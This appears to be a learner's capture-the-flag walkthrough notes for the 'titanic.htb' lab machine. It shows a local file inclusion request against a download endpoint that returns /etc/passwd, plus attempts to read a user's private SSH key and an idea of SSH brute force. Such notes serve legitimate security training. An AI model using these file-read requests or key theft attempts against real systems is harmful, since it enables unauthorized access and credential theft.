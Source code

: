 
webpage
![[Images/Pasted image 20250319144627.png]]

the only thing we can do on the site is booking, which downloads a file

```sh
┌──(fixit㉿asusx555b)-[~/Downloads]
└─$ cat aa1bd345-7ac5-45bc-a2cd-6480b427ec5b.json 
{"name": "a", "email": "test@test.test", "phone": "1", "date": "2025-03-10", "cabin": "Standard"} 

┌──(fixit㉿asusx555b)-[~/Downloads]
└─$ cat ce46a69d-fd79-496d-8078-d2bd72eef52a.json 
{"name": "'", "email": "test@test.test", "phone": "1", "date": "2025-03-10", "cabin": "Standard"}
```

this appears to be files that are downloaded so testing if we can download system files

lfi /etc/passwd

```http
GET //download?ticket=/etc/passwd HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.7,sv;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
```

```http
HTTP/1.1 200 OK
Date: Mon, 17 Mar 2025 12:57:10 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="/etc/passwd"
Content-Type: application/octet-stream
Content-Length: 1951
Last-Modified: Fri, 07 Feb 2025 11:16:19 GMT
Cache-Control: no-cache
ETag: "1738926979.4294043-1951-393413677"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

only one line with /bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash

try ssh bruteforce?

/etc/home/developer/.ssh/id_rsa
"error":"Ticket not found"

we get he same error when trying other files that doesn't exist

also tested rfi, does not work

/etc/home/developer/flag.txt doesn't exist